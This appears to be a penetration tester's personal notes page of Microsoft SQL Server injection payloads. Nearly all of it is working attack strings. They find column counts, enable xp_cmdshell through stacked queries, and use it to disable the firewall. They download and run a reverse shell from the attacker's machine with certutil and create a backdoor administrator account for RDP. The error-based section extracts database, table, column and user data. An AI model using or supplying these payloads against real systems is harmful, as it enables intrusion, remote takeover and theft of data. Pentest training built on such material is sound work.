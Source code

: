 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### SQLi GUIDE


[https://www.exploit-db.com/papers/12975](https://www.exploit-db.com/papers/12975)

[https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

[http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html)

---
   
#### Union Based attack
From here we can observe that there are likely 3 columns, Name, Title, and Year. 

Let's try to find out the number of columns using "order by" clause:

```sql
' order by 1--
```
no error message

```sql
' order by 5--
```
error message

```sql
' order by 4--
```
error message

```sql
' order by 3--
```
error message

```sql
' order by 2--
```
no error message

So as of now we know that 2 is the last column which worked, let us prepare the union select statement

  
```sql
' union select 1,2--
```

```sql
' union select null,null--
```

```sql
' union select '1111',null--
```

```sql
' union select null,'2222'--
```
  
```sql
' union select user,null--
```
  
```sql
' union select @@version,null--
```

```sql
' union select db_name(),null --
```

#### Code execution
```sql
' union select user,null; WAITFOR DELAY '0:0:5' ; --
```

This works, as it takes five seconds for the page to load, and still displays that our SQL code executed. Now, we'll start stacking in other commands from the resource to continue.

```sql
' union select user,null; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```

Enable xp_cmdshell:
```sql
' union select user,null; RECONFIGURE; --
```

```sql
' union select user,null; EXEC sp_configure 'xp_cmdshell', 1; --
```

```sql
' union select user,null; RECONFIGURE; --
```

Disable Firewall:
```sql
' union select user,null; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```

#### MSSQL reverse shell
[[1._Reverse Shells (WIN)]]

[[4._File Transfers]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```
' union select user,null; exec master..xp_cmdshell 'certutil -urlcache -split -f http://$KALI/reverse64.exe'; --
```

![[rlwrap]]

```
' union select user,null; exec master..xp_cmdshell 'reverse64.exe'; --
```

#### MSSQL RDP access
Add foobar as a new user:
```sql
' union select user,null; exec master..xp_cmdshell 'net user foobar pass123 /add'; --
```

Add foobar to Administrators group
```sql
' union select user,null; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```

Rdesktop as foobar:
```bash - kali
rdesktop $TARGET -u foobar -p pass123 -g 1024x768 -x 0x80
```

---

#### Error Based attack

```sql
1 AND 1=CONVERT(INT,@@version)--
```

In our example, we used ', to trigger the exploit.
```sql
',=CONVERT(INT,@@version)--
```

Extract number of databases:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT([name]) AS nvarchar(4000)) FROM [master]..[sysdatabases] )+CHAR(58)+CHAR(58))))--
```

Extract database names (replace N with a number starting from 1):
```sql
',=CONVERT(INT,db_name(N))--
```

```sql
',=CONVERT(INT,(SELECT CAST(name AS nvarchar(4000)) FROM master..sysdatabases WHERE dbid=N))--
```

Extract table count:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58))))--
```

Extract table names (replace N with a number starting from 1):
  
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```

To extract column names (replace TABLE_NAME string with appropriate table name found above):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

Enumerate through by changing "top ==1== column_name..." "top ==2== column_name..." "top ==3== column_name..." and so on.
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 2 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

To extract data, first count the entries in the table (replace table1 with appropriate table name):  
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM users)+CHAR(58)+CHAR(58))))--
```

Then, assuming the columns we wish to extract from are called column1 and column2:
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 email+CHAR(58)+user_id FROM (SELECT top 1 email, user_id FROM users ORDER BY email ASC) sq ORDER BY email DESC)+CHAR(58)+CHAR(58))))--
```

Extract tables from another database (change other_database and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM archive.information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```

Extract columns from another database (change other_database, other_table and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM archive.information_schema.COLUMNS WHERE TABLE_NAME='pmanager' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

See how many data entries there are in another database (change other_database and other_table):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM [archive]..[pmanager] )+CHAR(58)+CHAR(58))))--
```

Extract data from another database (change other_database, other_table, other_column and increase N):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 alogin FROM (SELECT top 1 alogin FROM archive..pmanager ORDER BY alogin ASC) sq ORDER BY alogin DESC)+CHAR(58)+CHAR(58))))--
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
